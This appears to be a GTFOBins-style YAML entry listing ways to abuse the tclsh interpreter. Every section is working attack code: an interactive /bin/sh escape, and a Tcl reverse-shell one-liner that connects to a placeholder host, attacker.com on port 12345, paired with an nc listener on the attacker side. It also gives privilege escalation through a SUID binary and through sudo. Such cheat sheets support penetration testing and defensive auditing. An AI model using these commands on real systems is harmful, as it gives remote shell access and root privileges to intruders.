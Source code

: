```yaml
---
functions:
  execute-interactive:
    - code: |
        tclsh
        exec /bin/sh <@stdin >@stdout 2>@stderr
  reverse-shell-non-interactive:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        echo 'set s [socket $::env(RHOST) $::env(RPORT)];while 1 { puts -nonewline $s "> ";flush $s;gets $s c;set e "exec $c";if {![catch {set r [eval $e]} err]} { puts $s $r }; flush $s; }; close $s;' | tclsh
  suid-enabled:
    - code: |
        ./tclsh
        exec /bin/sh -p <@stdin >@stdout 2>@stderr
  sudo-enabled:
    - code: |
        sudo tclsh
        exec /bin/sh <@stdin >@stdout 2>@stderr
---
```

